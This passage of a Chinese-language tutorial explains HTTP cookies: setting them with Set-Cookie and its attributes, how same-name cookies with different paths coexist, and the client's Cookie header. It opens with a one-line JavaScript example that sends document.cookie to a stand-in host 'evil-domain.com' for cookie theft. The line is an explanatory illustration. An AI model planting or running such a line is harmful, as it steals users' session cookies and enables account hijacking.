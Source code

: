 ```
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

**5. 服务端操作cookie**

服务端要设置cookie，需要在http头里设置`Set-Cookie`字段，可以包含多个。

```
HTTP/1.0 200 OK
Content-type: text/html
Set-Cookie: yummy_cookie=choco
Set-Cookie: tasty_cookie=strawberry
```

除了值之外，还可以附加cookie的属性，一个Set-Cookie字段里面，可以同时包括多个属性，没有次序的要求。

```
Set-Cookie: <cookie-name>=<cookie-value>; Expires=<date>
Set-Cookie: <cookie-name>=<cookie-value>; Max-Age=<non-zero-digit>
Set-Cookie: <cookie-name>=<cookie-value>; Domain=<domain-value>
Set-Cookie: <cookie-name>=<cookie-value>; Path=<path-value>
Set-Cookie: <cookie-name>=<cookie-value>; Secure
Set-Cookie: <cookie-name>=<cookie-value>; HttpOnly

// 包括多个属性
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT; Secure; HttpOnly
```

如果服务器想改变一个早先设置的 Cookie，必须同时满足四个条件：Cookie 的key、domain、path和secure都匹配。举例来说，如果原始的 Cookie 是用如下的Set-Cookie设置的。

```
Set-Cookie: key1=value1; domain=example.com; path=/blog
```

改变上面这个 Cookie 的值，就必须使用同样的Set-Cookie。

```
Set-Cookie: key1=value2; domain=example.com; path=/blog
```

只要有一个属性不同，就会生成一个全新的 Cookie，而不是替换掉原来那个 Cookie。
Set-Cookie: key1=value2; domain=example.com; path=/
上面的命令设置了一个全新的同名 Cookie，但是path属性不一样。下一次访问example.com/blog的时候，浏览器将向服务器发送两个同名的 Cookie。

```
Cookie: key1=value1; key1=value2
```

上面代码的两个 Cookie 是同名的，匹配越精确的 Cookie 排在越前面。


**6、客户端操作cookie**

客户端发送请求时，每次都会把cookie放在http头的Cookie字段中发送给服务端。

```
GET /sample_page.html HTTP/1.1
Host: www.example.org
Cookie: name=zhangsan1; age=12; Webstorm-dbb44fa0=e4a0db2b-0f80-47e9-acd1-4688f2e4ace9; optimizelyEndUserId=oeu1508308702253r0.1659170844255642;
```
